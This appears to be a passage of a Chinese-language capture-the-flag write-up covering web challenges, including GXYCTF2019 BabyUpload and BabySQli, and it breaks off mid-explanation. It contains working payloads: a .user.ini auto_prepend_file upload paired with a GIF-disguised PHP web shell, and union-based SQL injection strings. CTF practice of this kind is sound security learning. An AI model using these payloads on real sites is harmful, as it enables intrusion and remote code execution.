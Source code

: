 `文件上传`

上传`.user.ini`

```
Content-Disposition: form-data; name="fileUpload"; filename=".user.ini"
Content-Type: image/gif

GIF89a
auto_prepend_file=1.gif
```

上传`shell`

```
Content-Disposition: form-data; name="fileUpload"; filename="1.gif"
Content-Type: image/gif

GIF89a
<script language='php'>assert($_REQUEST[1]);</script>
```

最后使用同目录下的`index.php`文件运行`shell`

因为`.user.ini`会使当前目录下的所有`php`文件包含`auto_prepend_file`后的文件

## [GXYCTF2019]BabyUpload

`.htaccess上传`

`文件上传`

`system函数过滤`

将`system`函数过滤后，可以用`show_source`函数读取文件

## [GXYCTF2019]BabySQli

直接可以用联合注入，表里有三列

```
1' Order by 3#
```

进行用联合注入，回显wrong user!，说明用户不在第一列

```
1' union select 1,2,3#
```

尝试将用户名放在第二列，回显wrong pass!，找到用户名在第二列

```
1' union select 1,'admin',3#
```

接下里就是要绕过密码的`md5`验证，需要把我们输入的值和数据库里面存放的用户密码的`md5`值进行比较，那要怎么绕过呢？可以用联合查询语句用来生成虚拟的表数据

首先可以看到该表只有一个用户
